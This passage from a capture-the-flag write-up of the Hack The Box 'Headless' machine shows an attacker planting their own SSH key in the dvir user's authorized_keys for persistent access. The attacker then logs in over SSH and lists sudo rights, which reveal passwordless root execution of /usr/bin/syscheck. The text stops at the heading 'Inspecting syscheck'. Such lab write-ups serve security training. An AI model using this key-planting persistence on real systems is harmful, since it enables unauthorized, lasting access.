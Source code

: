 # Adding SSH keys

I could not find any user credentials on the file system. No databases running either. Since SSH was active keys were added to `authorized_keys` and granted the correct permissions.

```
dvir@headless:~/.ssh$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBhrRQwNfuUkaox5UY13Y6nX/6tipII7w5EGc9z2mPRS kali@kali" > authorized_keys
<nX/6tipII7w5EGc9z2mPRS kali@kali" > authorized_keys
dvir@headless:~/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys
```

# SSH Access - dvir user

SSH access obtained as the `dvir`  user. 

```
┌──(kali㉿kali)-[~/hackthebox/headless]
└─$ ssh dvir@10.10.11.8 -i dvir        
Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Wed Apr 10 17:10:31 2024 from 10.10.14.23
dvir@headless:~$ 
```

# SUDO Permissions

`dvir` user has permissions to execute `/usr/bin/syscheck` as root with sudo. 

```
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~$ 
```

# Inspecting syscheck
